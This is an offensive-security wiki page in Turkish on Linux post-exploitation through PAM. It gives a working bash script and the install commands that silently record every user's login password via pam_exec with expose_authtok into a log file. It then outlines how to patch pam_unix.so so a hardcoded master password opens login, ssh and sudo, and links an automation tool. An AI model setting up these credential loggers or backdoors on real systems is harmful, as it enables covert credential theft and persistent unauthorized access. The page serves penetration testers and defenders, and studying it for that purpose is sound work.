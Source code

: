 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM ile Giriş Parolalarını Dinleme

Her kullanıcının giriş yapmak için kullandığı parolayı kaydetmek için bir PAM modülü yapılandıralım. PAM'ın ne olduğunu bilmiyorsanız kontrol edin:


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Daha fazla detay için [orijinal gönderiyi](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) kontrol edin**. Bu sadece bir özet:

**Teknik Genel Bakış:**
Eklentili Kimlik Doğrulama Modülleri (PAM), Unix tabanlı sistemlerde kimlik doğrulama yönetiminde esneklik sunar. Giriş süreçlerini özelleştirerek güvenliği artırabilir, ancak kötüye kullanıldığında riskler de oluşturabilir. Bu özet, PAM kullanarak giriş kimlik bilgilerini yakalama tekniğini ve buna karşı önleme stratejilerini özetlemektedir.

**Kimlik Bilgilerini Yakalama:**

- `toomanysecrets.sh` adlı bir bash betiği, giriş denemelerini kaydetmek için oluşturulmuştur; tarih, kullanıcı adı (`$PAM_USER`), parola (stdin üzerinden) ve uzak ana bilgisayar IP'si (`$PAM_RHOST`) `/var/log/toomanysecrets.log` dosyasına kaydedilir.
- Betik çalıştırılabilir hale getirilir ve `pam_exec.so` modülü kullanılarak PAM yapılandırmasına (`common-auth`) entegre edilir; bu, sessizce çalıştırma ve kimlik doğrulama jetonunu betiğe açma seçenekleri ile yapılır.
- Bu yaklaşım, ele geçirilmiş bir Linux ana bilgisayarının kimlik bilgilerini gizlice kaydetmek için nasıl istismar edilebileceğini göstermektedir.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM'e Arka Kapı Eklemek

**Daha fazla detay için [orijinal gönderiye](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) bakın**. Bu sadece bir özet:

Eklentili Kimlik Doğrulama Modülü (PAM), Linux altında kullanıcı kimlik doğrulaması için kullanılan bir sistemdir. Üç ana kavram üzerinde çalışır: **kullanıcı adı**, **şifre** ve **hizmet**. Her hizmetin yapılandırma dosyaları `/etc/pam.d/` dizininde bulunur; burada paylaşılan kütüphaneler kimlik doğrulamasını yönetir.

**Amaç**: PAM'i, belirli bir şifre ile kimlik doğrulamasına izin verecek şekilde değiştirmek, gerçek kullanıcı şifresini atlayarak. Bu, şifre doğrulaması için neredeyse tüm hizmetler tarafından dahil edilen `common-auth` dosyasında kullanılan `pam_unix.so` paylaşılan kütüphanesine özellikle odaklanmaktadır.

### `pam_unix.so`'yu Değiştirme Adımları:

1. **Kimlik Doğrulama Yönergesini Bulun** `common-auth` dosyasında:
   - Bir kullanıcının şifresini kontrol eden satır `pam_unix.so`'yu çağırır.
2. **Kaynak Kodunu Değiştirin**:
   - `pam_unix_auth.c` kaynak dosyasında, önceden tanımlanmış bir şifre kullanıldığında erişim izni veren bir koşullu ifade ekleyin, aksi takdirde normal kimlik doğrulama sürecine devam edin.
3. **Derleyin ve Değiştirilen** `pam_unix.so` kütüphanesini uygun dizinde değiştirin.
4. **Test**:
   - Önceden tanımlanmış şifre ile çeşitli hizmetlere (giriş, ssh, sudo, su, ekran koruyucu) erişim izni verilirken, normal kimlik doğrulama süreçleri etkilenmez.

> [!TIP]
> Bu süreci [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) ile otomatikleştirebilirsiniz.

{{#include ../../banners/hacktricks-training.md}}
